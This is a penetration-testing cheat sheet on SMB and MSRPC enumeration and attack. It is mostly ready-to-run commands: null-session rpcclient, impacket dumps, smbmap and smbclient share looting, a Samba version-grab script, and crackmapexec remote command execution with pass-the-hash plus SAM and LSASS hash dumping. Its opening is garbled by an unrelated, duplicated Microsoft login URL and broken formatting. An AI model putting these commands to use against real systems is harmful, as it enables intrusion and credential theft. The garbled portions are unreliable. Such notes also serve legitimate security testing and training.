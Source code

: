 https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1670595664&rver=7.3.6962.0&wp=MBI_SSL_SHARED&lc=1033&id=250206&cbcxt=sky&ru=https%3A%2F%2Fonedrive%2Elive%2Ecom%2F%3Fv%3Dphotos%26sc%3D2%26id%3Droot%26qt%3Dallmyphotos%26onThisDay%3Dtrue%26moj%3DonThisDay%26startDate%3D12%252D09%252D2022%26cid%3DBAC84FD3BA87BB54&wreply=https%3A%2F%2Fonedrive%2Elive%2Ecom%2F%3Fv%3Dphotos%26sc%3D2%26id%3Droot%26qt%3Dallmyphotos%26onThisDay%3Dtrue%26moj%3DonThisDay%26startDate%3D12%252D09%252D2022%26cid%3DBAC84FD3BA87BB54https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1670595664&rver=7.3.6962.0&wp=MBI_SSL_SHARED&lc=1033&id=250206&cbcxt=sky&ru=https%3A%2F%2Fonedrive%2Elive%2Ecom%2F%3Fv%3Dphotos%26sc%3D2%26id%3Droot%26qt%3Dallmyphotos%26onThisDay%3Dtrue%26moj%3DonThisDay%26startDate%3D12%252D09%252D2022%26cid%3DBAC84FD3BA87BB54&wreply=https%3A%2F%2Fonedrive%2Elive%2Ecom%2F%3Fv%3Dphotos%26sc%3D2%26id%3Droot%26qt%3Dallmyphotos%26onThisDay%3Dtrue%26moj%3DonThisDay%26startDate%3D12%252D09%252D2022%26cid%3DBAC84FD3BA87BB54## SMB And RPC?
```



**Server message block (SMB)** is a protocol used by Windows for locating and accessing resources like shares, printers, computers, etc. Just as other protocols do, SMB too has characteristics that an attacker can leverage to hide malicious traffic to exploit SMB- and MSRPC-based vulnerabilities. In addition, SMB acts as a transport for **Microsoft Remote Procedure Call (MSRPC)**.


**Remote procedure call (RPC)** is an inter-process communication framework that allows a computer program to cause a subroutine or procedure to execute in another address space (commonly on another computer on a shared network). In effect, it takes on much of the low-level network functions and allows the programmer to focus on methods and procedures he wants to implement.


https://docs.trellix.com/bundle/network-security-platform-application-notes/page/GUID-F974B297-75AB-4A7A-BA89-85B973FA48B7.html```

## Enumeration

```
nbtscan -r 192.168.0.1/24

## Server Enumeration
```
#!/bin/sh
#Author: rewardone
#Description:
# Requires root or enough permissions to use tcpdump
# Will listen for the first 7 packets of a null login
# and grab the SMB Version
#Notes:
# Will sometimes not capture or will print multiple
# lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1

OR

Use the **MSF** auxiliary module _**auxiliary/scanner/smb/smb_version**

```


##  Dump interesting information
```

nmap --script "safe or smb-enum-*" -p 445 <IP>

#Connect to the rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
#You can use querydispinfo and enumdomusers to query user information

#Dump user information
impacket-samrdump -port 139 [[domain/]username[:password]@]<targetName or address>

impacket-samrdump  -port 445 [[domain/]username[:password]@]<targetName or address>

#Map possible RPC endpoints
impacket-rpcdump
-port 135 [[domain/]username[:password]@]<targetName or address>

impacket-rpcdump -port 139 [[domain/]username[:password]@]<targetName or address>

impacket-rpcdump -port 445 [[domain/]username[:password]@]<targetName or address>

```

## Enumerate Users, Groups & Logged on users
```
# This info should already being gathered from enum4linux and enum4linux-ng
crackmapexec smb 10.10.10.10 --users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups --loggedon-users [-u <username> -p <password>]

ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "

rpcclient -U "" -N 10.10.10.10
enumdomusers
enumdomgroups

# Impacket - Enumerate local users
impacket-lookupsid -no-pass hostname.local

# Metasploit - Enumerate local users
use auxiliary/scanner/smb/smb_lookupsid
set rhosts hostname.local
run
```

```
smbclient --no-pass -L //<IP> # Null user
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash

smbmap -H <IP> [-P <PORT>] #Null user
smbmap -u "username" -p "password" -H <IP> [-P <PORT>] #Creds
smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] #Pass-the-Hash
smbmap -R -u "username" -p "password" -H <IP> [-P <PORT>] #Recursive list

crackmapexec smb <IP> -u '' -p '' --shares #Null user
crackmapexec smb <IP> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares #Guest user
```

```
#Connect using smbclient
smbclient --no-pass //<IP>/<Folder>
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
#Use --no-pass -c 'recurse;ls'  to list recursively with smbclient

#List with smbmap, without folder it list everything
smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] #Pass-the-Hash

smbclient -U '%' -N \\\\192.168.0.24\\im_clearly_not_here # returns NT_STATUS_BAD_NETWORK_NAME
smbclient -U '%' -N \\\\192.168.0.24\\ADMIN$ # returns NT_STATUS_ACCESS_DENIED or even gives you a session


```

## Mount
```
mount -t cifs //x.x.x.x/share /mnt/share
mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share
```

## Download all
```
#Download all
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
#Download everything to current directory
```

## crackmapexec
```
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute
```